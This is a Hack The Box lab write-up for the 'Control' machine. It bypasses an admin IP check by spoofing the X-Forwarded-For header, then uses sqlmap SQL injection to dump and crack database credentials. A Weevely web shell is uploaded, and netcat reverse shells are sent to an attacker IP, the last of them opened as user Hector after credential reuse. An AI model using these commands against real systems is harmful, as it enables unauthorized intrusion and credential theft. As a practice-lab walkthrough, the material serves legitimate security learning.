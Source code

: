 ```yaml
---
title: Hack The Box Labs - Control Writeup [Pentest]
author: vrls
date: 2019-12-28
#categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [hackthebox, htb, control, machine, writeup, pentest, penetration testing]
image: /assets/img/posts/2019/12/9391fb180d67e42baabf97304a3d561c.png #og:image
permalink: /posts/2019/12/hack-the-box-control-writeup-pentest/

#image:
#  src: /assets/img/posts/YYYY/MM/MD5SUMHASH.png
#  width: 350   # in pixels
#  height: 350   # in pixels
---
```


## Discovery

Starting with one initial Nmap scan. It shows open ports running the following services:

![image](/assets/img/posts/2019/12/327d328ca1c3194d32e08ded4ae10722.png)

This is a Windows box. MySQL service listening on port **3306** was not recognized. However, Nmap fingerprint returned **MariaDB Server**. It may be caused by a custom installation and/or configuration.

Heading to HTTP, we are presented with this nice page:

![image](/assets/img/posts/2019/12/9391fb180d67e42baabf97304a3d561c.png)

At this point we identified three hyperlinks.

* http://control.htb/index.php
* http://control.htb/about.php
* http://control.htb/admin.php

Also, having a look at the raw HTML in **index.php** page we spot one interesting *comment* inserted by a developer. 

![image](/assets/img/posts/2019/12/51e5a193361d73a0608d5a4012d6a80e.png)

The network share **\\192.168.4.28\myfiles** could be useful later. This IP address is out of our range (10.10.10.1/24)

While trying to load **admin.php** page it throws the following error:

* **Access Denied: Header Missing. Please ensure you go through the proxy to access this page.*

## Vulnerabilities

My first thought was setting up a HTTP proxy configuration in web browser but since we cannot reach that IP address it wouldn't be possible.

Remember how to identify a connection coming from a HTTP proxy: **X-Forwarded-For header**.

This is how verification is done in **admin.php**. It checks if the client is authorized to access this page by looking at IP address whitelist.

Requesting **admin.php** with header **X-Forwarded-For** value set to **192.168.4.28** will load the page as intended and we will be allowed to enter in administration panel.

Burp Proxy was configured to add a custom header to every request in order to explore this panel with more flexibility.

![image](/assets/img/posts/2019/12/11ce822fb1bbfcd413158720bf1bce69.png)

At this time we know this information is being stored and served by the MySQL server we identified previously.

The first functionality is a product search by name. It is worth to try a few characters commonly used in detection for SQL injection.

For example, single quote **'**, semicolon **;** or comment delimiter **--** aiming to modify the original query. 

![image](/assets/img/posts/2019/12/59f0bd11680ed4087aadd818a06e618c.png)

Searching for a single quote as product name returns a *syntax error*. The character messed up with the original query because it is not being properly filtered.

This means that we can inject arbitrary MySQL queries and consequently read and/or modify the database.

Next step, to avoid manual and exaustive techniques, is to execute sqlmap which is one of the most powerful automated tools to explore SQL injection flaws.

Executing 

```bash
$ ./sqlmap.py -u "http://control.htb/search_products.php" --headers "X-Forwarded-For: 192.168.4.28" --data "productName=*" --dbms "mysql" --dbs
```

![image](/assets/img/posts/2019/12/df1b85aa51698dc4d7f574d31c9da7ad.png)

The **warehouse** database contains information that is being displayed in administration panel. There's nothing interesting in it. Only sample rows and few product categories.

Moving on to **mysql**. This database contains tables with juicy info.

In particular, **mysql.user** table has the information about users with permission to access this MariaDB server.


![image](/assets/img/posts/2019/12/9f811852eaa8ca9a8942316f144b2c06.png)

Our next hope is that passwords are not too complex in order to crack them via a dictionary-based attack.

Checking these hashes on **CrackStation.net** gives us the plaintext for two of them. 

![image](/assets/img/posts/2019/12/375ce243580ecbb10a0d5987c1b5ff87.png)


* root : \<unknown>
* manager : l3tm3!n
* hector : l33th4x0rhector

It seems we reached end of the line. We got into the administration panel, exploited one SQL injection flaw and dumped the database. We've also found these fancy credentials.

The goal now is to get a shell, either a command line or PowerShell.

While trying to connect to SQL server remotely with the credentials we found results in access denied. This server doesn't accept remote incoming connections, therefore we need to connect from local network.

At this point we should start enumerating MariaDB server to understand what it is possible to accomplish through the user we are performing MySQL queries, the user **manager**. 


![image](/assets/img/posts/2019/12/3dcd4efc9bdd7bd2ea6d8cddcb4e625f.png)


This user has **FILE privileges** which means we are allowed to read and write files on the server using statements like **LOAD_FILE()** for reading and **INTO OUTFILE** for writing.

We can take advantage of sqlmap features such as *--sql-query "SELECT LOAD_FILE('C:/windows/system32/drivers/etc/hosts');"* to read the local Windows hosts file, for example.


![image](/assets/img/posts/2019/12/7b32b11ec9836dd3913acdae285a8e2b.png)

Great! We just read a system file from the target machine through SQL.

Since this machine has PHP working together with Microsoft IIS we can find a way to upload an arbitrary **.php** file and execute it through web server, by accessing it.

Once again, sqlmap provides a complete toolkit to explore SQL injection flaws. It is possible to write a file to a desired location using both **--file-write \<local_file>** and **--file-dest \<remote_path>** options.

Local file could contain either *<?php phpinfo();?>* or a simple call to PHP *system()* function in order to execute commands on the target machine, although, we don't know what is the absolute path of web root to upload it.

The easiest way is to use **--os-shell** option in sqlmap and let it fuzz automatically using its own pre-set dictionary.

Other method could be getting a nice list for common web root directories (e.g. SecLists) and create a script to read a known file, for example *\<path>/index.php*, through MariaDB where \<path> is iterating each line of the list.

It turns out that the web root of this machine is simply **C:/inetpub/wwwroot/**

By uploading a Weevely generated web-shell to **C:/inetpub/wwwroot/w.php** will allow us to execute simple commands.

```bash
$ ./weevely.py http://control.htb/w.php 1337
```

![image](/assets/img/posts/2019/12/cdde503e153e42f0e66e36bd3ad5cd89.png)

We are executing commands as **NT AUTHORITY/IUSR** which is a built-in user for Microsoft IIS but that's not enough as we don't have sufficient privileges.

Looking at Fidelity user accounts we can see a user named Hector that also exists as a MySQL user. It is a good idea to check if there is password reutilization.

However, we don't have remote desktop connection to the machine and our command prompt is not interactive enough to leverage this shell.

In this case we should spawn a PowerShell in order to have more control. This can be accomplished by uploading nc.exe to web-root and then sending a powershell to our listening netcat server.

On target machine, 

```shell
> nc.exe -e powershell.exe 10.10.15.117 4444 
```

will pop a powershell at our listening netcat. 

![image](/assets/img/posts/2019/12/b6af65daf0bad093257ebfd3c1e8ed11.png)


Ok, this is getting better. Now we can get a powershell as another user by creating a PSCredential object and passing the **-Credential** flag in Invoke-Command.

Setting up the object:

```powershell
$pass = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("Fidelity\Hector", $pass)
```

We should run another netcat instance listening on a different port to receive a PowerShell as user and execute the cmdlet.

```powershell
Invoke-Command -Computer Fidelity -Credential $cred -ScriptBlock { cmd.exe "/c C:\inetpub\wwwroot\nc.exe -e powershell.exe 10.10.15.212 4445" } 
```

![image](/assets/img/posts/2019/12/7d16ba94f645d46af3f7f4a531287c37.png)


Got it! Escalated from built-in IIS IUSR to another user **Hector**

From now we're able to read important documents and even pop another PowerShell with higher privileges :) 


## References

* https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For
* https://www.sjoerdlangkemper.nl/2017/03/01/bypass-ip-block-with-x-forwarded-for-header/
* https://portswigger.net/bappstore/807907f5380c4cb38748ef4fc1d8cdbc
* https://github.com/sqlmapproject/sqlmap/wiki/Usage
* https://blogs.msdn.microsoft.com/koteshb/2010/02/12/powershell-how-to-create-a-pscredential-object/
* https://codingbee.net/powershell/powershell-use-credssp-to-run-commands-remotely-with-fewer-issues
